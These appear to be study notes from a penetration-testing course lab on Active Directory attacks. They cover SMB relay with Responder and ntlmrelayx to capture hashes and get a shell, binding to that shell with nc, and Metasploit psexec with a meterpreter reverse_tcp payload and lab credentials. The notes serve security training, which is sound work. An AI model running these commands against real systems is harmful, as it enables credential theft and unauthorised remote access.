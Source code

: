 ##### Modify and use Responder
We need to disable -->  SMB and HTTP
`sudo vi ~/Desktop/TCM/tools/Responder`
change to Off -->  SMB and HTTP

now we can use it:
`sudo python3 Responder.py -I vmnet8 -dPv`

##### Set up NTLM relay (ntlmrelayx.py)
#AD_tool
`ntlmrelayx.py -tf targets.txt -sm2support` 
`-tf` -->  target file

##### Victim Event Occurs
from THEPUNISHER:
- login as fcastle with Password1
- open file explorer
- type in the bar -->  `\\ip attacker`
=>
if we look at our terminal with `ntlmrelayx.py':
<font color="#2DC26B">we have found Aministrator and Peter Parker hashes</font>
![[Pasted image 20240226104434.png]]

##### Another possible Attack
`ntlmrelayx.py -tf targets.txt -sm2support -i`
`-i` -->  interactive mode
=>
if we create again another event inside the victim:
<span style="color:#00b050">we obtain a shell via TCP</span>
![[Pasted image 20240226105252.png]]
=>
we need to bind to that shell:
`nc 127.0.0.1 11000`
![[Pasted image 20240226105537.png]]
if we type `help` -->  we can see all the commands that we can use

##### SMB Relay Mitigation
<span style="background:#fff88f">Possibile mitigation:</span>
![[Pasted image 20240226110048.png]]

#### Gaining Shell Access
we can do in different ways

##### Metasploit
#AD_tool
`msfconsole`
`search psexec`    and look for exploit/windows/smb/psexec
`use <number>`
`options`
`set payload windows/x64/meterpreter/reverse_tcp`
`set RHOST <THE PUNISHER IP>`      172.16.214.130
`set smbdomain MARVEL.local`
`set smbuser fcastle`
`set smbpass Password1`
`run`
